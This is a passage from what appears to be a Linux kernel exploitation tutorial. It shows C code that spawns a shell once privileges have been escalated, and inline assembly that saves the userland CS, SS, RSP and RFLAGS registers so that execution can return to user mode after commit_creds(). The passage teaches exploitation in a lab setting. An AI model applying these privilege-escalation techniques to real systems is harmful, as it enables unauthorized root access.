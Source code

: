 Finally, we create a `get_shell()` function we call at the end, once we've escalated privileges:

```c
void get_shell() {
    system("/bin/sh");
}

int main() {
    // [ everything else ]
    
    get_shell();
}
```

### Returning to userland

If we run what we have so far, we fail and the kernel panics. Why is this?

The reason is that once the kernel executes `commit_creds()`, it doesn't return back to user space - instead it'll pop the next junk off the stack, which causes the kernel to crash and panic! You can see this happening while you debug (which [we'll cover soon](debugging-a-kernel-module.md)).

What we have to do is **force the kernel to swap back to user mode**. The way we do this is by **saving the initial userland register state** from the start of the program execution, then once we have escalate privileges in kernel mode, we **restore the registers to swap to user mode**. This reverts execution to the exact state it was before we ever entered kernel mode!

We can store them as follows:

```c
uint64_t user_cs;
uint64_t user_ss;
uint64_t user_rsp;
uint64_t user_rflags

void save_state() {
    puts("[*] Saving state");

    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );

    puts("[+] Saved state");
}
```

The CS, SS, RSP and RFLAGS registers are stored in 64-bit values within the program. To restore them, we append extra assembly instructions in `escalate()` for after the privileges are acquired:
